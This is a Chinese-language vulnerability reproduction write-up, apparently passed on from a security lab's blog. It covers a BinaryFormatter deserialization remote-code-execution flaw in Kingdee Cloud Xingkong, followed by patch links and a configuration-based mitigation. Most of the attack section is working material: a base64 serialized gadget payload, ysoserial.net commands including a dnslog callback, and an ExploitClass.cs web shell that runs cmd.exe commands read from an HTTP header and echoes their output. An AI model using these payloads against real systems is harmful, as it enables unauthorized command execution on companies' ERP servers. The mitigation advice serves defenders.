HZXRFbnVtZXJhdG9yKCkGZwAAAJQBU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dIEdldEVudW1lcmF0b3IoKQgAAAAKAUgAAABCAAAABmgAAADAAlN5c3RlbS5GdW5jYDJbW1N5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLklFbnVtZXJhdG9yYDFbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkJvb2xlYW4sIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dCT4AAAAKCT4AAAAGagAAAB5TeXN0ZW0uQ29sbGVjdGlvbnMuSUVudW1lcmF0b3IGawAAAAhNb3ZlTmV4dAoBSQAAAEMAAAAJawAAAAk+AAAACWoAAAAGbgAAABJCb29sZWFuIE1vdmVOZXh0KCkGbwAAABlTeXN0ZW0uQm9vbGVhbiBNb3ZlTmV4dCgpCAAAAAoBSgAAAEIAAAAGcAAAAL0CU3lzdGVtLkZ1bmNgMltbU3lzdGVtLkNvbGxlY3Rpb25zLkdlbmVyaWMuSUVudW1lcmF0b3JgMVtbU3lzdGVtLlR5cGUsIG1zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OV1dLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JPgAAAAoJPgAAAAZyAAAAhAFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5JRW51bWVyYXRvcmAxW1tTeXN0ZW0uVHlwZSwgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0GcwAAAAtnZXRfQ3VycmVudAoBSwAAAEMAAAAJcwAAAAk+AAAACXIAAAAGdgAAABlTeXN0ZW0uVHlwZSBnZXRfQ3VycmVudCgpBncAAAAZU3lzdGVtLlR5cGUgZ2V0X0N1cnJlbnQoKQgAAAAKAUwAAABCAAAABngAAADGAVN5c3RlbS5GdW5jYDJbW1N5c3RlbS5UeXBlLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldLFtTeXN0ZW0uT2JqZWN0LCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQk+AAAACgk+AAAABnoAAAAQU3lzdGVtLkFjdGl2YXRvcgZ7AAAADkNyZWF0ZUluc3RhbmNlCgFNAAAAQwAAAAl7AAAACT4AAAAJegAAAAZ+AAAAKVN5c3RlbS5PYmplY3QgQ3JlYXRlSW5zdGFuY2UoU3lzdGVtLlR5cGUpBn8AAAApU3lzdGVtLk9iamVjdCBDcmVhdGVJbnN0YW5jZShTeXN0ZW0uVHlwZSkIAAAACgFOAAAADwAAAAaAAAAAJlN5c3RlbS5Db21wb25lbnRNb2RlbC5EZXNpZ24uQ29tbWFuZElEBAAAAAk6AAAAEE8AAAACAAAACYIAAAAICAAgAAAEggAAAAtTeXN0ZW0uR3VpZAsAAAACX2ECX2ICX2MCX2QCX2UCX2YCX2cCX2gCX2kCX2oCX2sAAAAAAAAAAAAAAAgHBwICAgICAgICExPSdO4q0RGL+wCgyQ8m9wsL","format":"3"}

```

本次漏洞复现需要借助 ysoserial.net 工具构造恶意序列化数据实现 RCE。

```
ysoserial.exe -f BinaryFormatter -g ResourceSet -o base64 -c "ping nnau95.dnslog.cn"

```



dnslog 测试，将上述 ap0 中替换为 ysoserial.exe 中生成的内容  

       有回显测试，替换内容即可。

```
ysoserial.exe -f BinaryFormatter -g ActivitySurrogateSelectorFromFile -c "ExploitClass.cs;System.Windows.Forms.dll;System.dll;System.Web.dll

```

命令中  -f 指定的是. net 程序中的序列化类，-g 是 ysoserial.net 工具中的攻击链， 这里指定的是 ActivitySurrogateSelectorFromFile 链，这个攻击链可加载自定义的程序集。-c 是构造的程序集（ExploitClass.cs），后面的 dll 文件是. NET Framework 中的一个核心 DLL 文件，包含了一些相关的类和方法 (自行加载，不需要构造)

这里需要文件 ExploitClass.cs，内容如下。

```
class E
{
    public E()
    {
        System.Web.HttpContext context = System.Web.HttpContext.Current;
        context.Server.ClearError();
        context.Response.Clear();
        try
        {
            System.Diagnostics.Process process = new System.Diagnostics.Process();
            process.StartInfo.FileName = "cmd.exe";
            string cmd = context.Request.Headers["cmd"];
            process.StartInfo.Arguments = "/c " + cmd;
            process.StartInfo.RedirectStandardOutput = true;
            process.StartInfo.RedirectStandardError = true;
            process.StartInfo.UseShellExecute = false;
            process.Start();
            string output = process.StandardOutput.ReadToEnd();
            context.Response.Write(output);
        } catch (System.Exception) {}
        context.Response.Flush();
        context.Response.End();
    }
}

```

命令测试省略。

3.Xpoc 测试（漏洞存在）




  

**0x04 修复建议**  

  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://vip.kingdee.com/knowledge/specialDetail/352491453127123200?category=352491970117034240&id=388994085535220992&productLineId=1
https://blog.csdn.net/qq_41904294/article/details/131332436

```

缓解方案

对于低于 PT123230 [6.2.1012.4] 版本的金蝶云星空：请禁止把金蝶云星空管理中心发布到公网访问，并使用防火墙设置能访问管理中心的 IP 白名单。如有需要发布到外网，或内网需要访问管理中心，可设置白名单进行控制。

8.x 版本可通过手动添加安全配置并重启 IIS 的方式进行缓解，注意管理中心与普通应用

#### 配置文件均需添加：

```
# 普通应用配置：{WebROOT}\Kingdee\K3Cloud\WebSite\App_Data\Common.config
# 管理中心配置：{WebROOT}\Kingdee\K3Cloud\Services\ManagementService\App_Data\Common.config
EnabledKDSVCBinary = false

```

由于该漏洞不仅影响管理中心（默认 8000 端口），也影响普通应用（默认 80 端口）。如果其它版本通过限制访问来源临时缓解漏洞，需要考虑是否会中断普通用户 Web 业务。

**弥天简介**

**学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于 2019 年 2 月 19 日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。**

**口号 网安引领时代，弥天点亮未来**

 

知识分享完了

喜欢别忘了关注我们哦~

学海浩茫，

予以风动，

必降弥天之润！

   弥  天

安全实验室  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
